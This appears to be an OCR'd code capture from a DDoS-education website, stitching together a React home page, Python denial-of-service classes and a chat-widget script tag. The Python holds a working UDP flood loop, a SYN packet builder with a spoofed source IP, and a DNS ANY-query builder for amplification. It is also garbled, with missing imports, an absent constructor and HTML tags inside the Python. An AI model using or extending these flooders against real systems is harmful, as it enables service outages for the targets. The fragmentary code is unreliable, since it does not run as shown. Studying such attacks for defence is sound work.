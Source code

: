  (src/pages/home/page.tsx)

import HeroSection from './components/HeroSection';
import ConceptsSection from './components/ConceptsSection';
import EducationalSection from './components/EducationalSection';
import PracticalSection from './components/PracticalSection';
import ResourcesSection from './components/ResourcesSection';
import ContactSection from './components/ContactSection';
export default function HomePage() {
  return (
    <div className="min-h-screen">
      <HeroSection />
      <ConceptsSection />
      <EducationalSection />
      <PracticalSection />
      <ResourcesSection />
      <ContactSection />
    </div>
  );
}

class UDPFloodDemo:
    def __init__(self, target_ip, target_port):
        self.target_ip = target_ip
        self.target_port = target_port
        self.packet_count = 0
        self.running = False
      <br>
    def generate_random_payload(self, size=1024):
        return bytes([random.randint(0, 255) for _ in range(size)])
      <br>
    def send_udp_packets(self):
        sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        while self.running:
            payload = self.generate_random_payload()
            sock.sendto(payload, (self.target_ip, self.target_port))
            self.packet_count += 1


class SYNFloodDemo:
    def create_syn_packet(self, source_ip):
        ip_packet = IP(src=source_ip, dst=self.target_ip)
        tcp_packet = TCP(
            sport=random.randint(1024, 65535),
            dport=self.target_port,
            flags="S",
            seq=random.randint(0, 4294967295),
            window=8192
        )
        return ip_packet / tcp_packet



class DNSAmplificationDemo:
    def create_dns_query(self, domain="isc.org", query_type="ANY"):
        dns_query = DNS(
            id=random.randint(0, 65535),
            qr=0, opcode=0, aa=0, tc=0, rd=1, ra=0, z=0, rcode=0,
            qdcount=1, ancount=0, nscount=0, arcount=0
        )
        dns_question = DNSQR(qname=domain, qtype=query_type, qclass="IN")
        return dns_query / dns_question


<script
  src="https://readdy.ai/api/public/assistant/widget?projectId=eab59949-b3f2-4ad1-8728-cbd651f09b4e"
  mode="hybrid"
  voice-show-transcript="true"
  theme="dark"
  size="compact"
  accent-color="#00ff41"
  button-base-color="#000000"
  button-accent-color="#00ff41"
  defer
></script>
